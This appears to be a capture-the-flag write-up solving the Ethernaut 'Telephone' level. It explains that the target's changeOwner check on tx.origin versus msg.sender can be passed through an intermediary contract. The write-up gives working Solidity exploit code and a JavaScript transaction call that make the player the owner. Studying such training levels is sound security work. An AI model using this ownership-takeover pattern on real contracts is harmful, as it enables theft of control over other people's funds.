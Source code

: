 
In the changeOwner() function the target is checking whether `tx.origin != msg.sender`. We can make this true if we deploy our own smart contract (which will be `msg.sender`), and then we call our smart contract from our MetaMask wallet with JavaScript, which becomes `tx.origin`. We will pass the address of our own wallet so we become the owner.

We write our own smart contract:
```solidity
pragma solidity ^0.4.18;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Exploit {
    constructor() public payable {}
    
    // Fallback
    function() public payable {
        address player = 0x8E0Ff062059376013FA56470805bec01b5aD06cc;
        address target_contract = 0x30d8FDc2cB50Db734e3eCC9c7A10f3BAa926aF95;
        Telephone(target_contract).changeOwner(player);
    }
}
```

And then use the JavaScript console in the browser to send a transcation to our deployed contract. This will trigger the fallback function which will then call the required function on the target, passing our own wallet address as the argument which will be made the owner.

```javascript
await sendTransaction({
  from: player,
  to: "0xB29CDdf2b7521Bf830884e8DA6D9D8c32c470fE8"
})
```
